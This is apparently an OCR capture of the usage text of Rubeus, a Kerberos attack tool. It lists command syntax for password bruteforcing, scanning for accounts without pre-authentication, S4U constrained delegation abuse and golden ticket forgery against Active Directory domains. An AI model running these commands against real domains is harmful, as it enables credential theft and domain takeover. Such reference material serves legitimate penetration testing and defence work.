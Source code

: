         Perform a Kerberos-based password bruteforcing attack:
            Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]

        Perform a scan for account that do not require pre-authentication:
            Rubeus.exe preauthscan /users:C:\temp\users.txt [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/proxyurl:https://KDC_PROXY/kdcproxy]


     Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/proxyurl:https://KDC_PROXY/kdcproxy] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/bronzebit] [/nopac] [/proxyurl:https://KDC_PROXY/kdcproxy] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]

        Perform S4U constrained delegation abuse across domains:
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/self] [/nopac] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]


     Ticket Forgery:

        Forge a golden ticket using LDAP to gather the relevent information:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a golden ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a golden ticket, setting values explicitly:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]
